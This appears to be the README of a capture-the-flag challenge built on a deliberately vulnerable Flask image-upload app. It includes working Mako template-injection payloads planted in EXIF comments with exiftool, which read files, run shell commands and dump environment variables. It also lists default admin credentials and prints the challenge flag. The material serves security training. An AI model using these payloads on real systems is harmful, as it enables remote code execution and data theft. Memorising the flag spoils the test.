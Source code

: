 # CTF Govware2 - Image Upload Challenge

This is a CTF challenge featuring a Flask web application with multiple security vulnerabilities including Server-Side Template Injection (SSTI) in EXIF data processing and authentication bypass opportunities.

## Features

- **User Authentication System**: Login/registration with session management
- **Image Upload Functionality**: Support for PNG, JPG, JPEG, and SVG files
- **EXIF Data Processing**: Extracts and displays image metadata
- **Admin Dashboard**: Administrative interface for privileged users
- **Docker Support**: Containerized deployment with Docker and Docker Compose

## Setup

### Using Docker Compose (Recommended)
```bash
docker-compose up --build
```

### Using Docker directly
```bash
docker build -t ctf_govware2-web .
docker run -d --name upload_image_app -p 5001:5000 ctf_govware2-web
```

The application will be available at `http://localhost:5001`

## Application Structure

- **Login/Registration**: `/login` and `/register` endpoints
- **User Dashboard**: `/user_dashboard` for authenticated users
- **Admin Dashboard**: `/admin_dashboard` for admin users
- **Secret Page**: `/secret` - publicly accessible easter egg
- **Image Upload**: Main functionality accessible after authentication

## Default Credentials

- **Admin User**: `admin` / `admin123`

## Vulnerability Details

### 1. Server-Side Template Injection (SSTI)
The application has a critical SSTI vulnerability in the EXIF data processing. When an image is uploaded, the application extracts EXIF data and renders it using Mako templates without proper sanitization.

### 2. Session Management
The application uses custom session cookie encoding that may have implementation weaknesses.

## Exploitation

### SSTI Exploitation Steps:

1. **Register/Login** to the application
2. **Create a malicious image** with EXIF data containing Mako template injection payload
3. **Upload the image** through the web interface
4. **View the processed EXIF data** where the payload will be executed

### Example Payload Injection:
```bash
# Install exiftool if not available
brew install exiftool  # macOS
# or
apt-get install libimage-exiftool-perl  # Ubuntu/Debian

# Inject malicious payload into image EXIF data
exiftool -Comment='${"__import__(\"os\").popen(\"cat /home/www/flag.txt\").read()}' image.jpg
```

### Alternative Payloads:
```bash
# Read flag file
exiftool -Comment='${open("/home/www/flag.txt").read()}' image.jpg

# Execute system commands
exiftool -Comment='${"__import__(\"subprocess\").check_output([\"ls\", \"-la\", \"/home/www\"]).decode()}' image.jpg

# Environment variable access
exiftool -Comment='${"__import__(\"os\").environ}' image.jpg
```

## Flag Information

- **Flag Location**: `/home/www/flag.txt`
- **Flag Format**: `BCTF{Y0U_C4NNOt_F0o1_Y()uR531F}`
- **Access**: Requires exploitation of the SSTI vulnerability

## File Structure

```
CTF_GOVWARE2/
├── app.py                 # Main Flask application
├── Dockerfile            # Docker container configuration
├── docker-compose.yml    # Docker Compose setup
├── requirements.txt      # Python dependencies
├── ssti_payloads.txt     # Sample SSTI payloads
├── uploads/              # Directory for uploaded images
└── README.md            # This file
```

## Security Notes

⚠️ **Warning**: This application is intentionally vulnerable and should only be used for:
- Educational purposes
- CTF competitions
- Security training in controlled environments

**Do not deploy this application in production or on public networks.**

## Dependencies

- Flask
- Pillow (PIL)
- Mako
- Werkzeug

## License

This project is for educational purposes only. Use responsibly.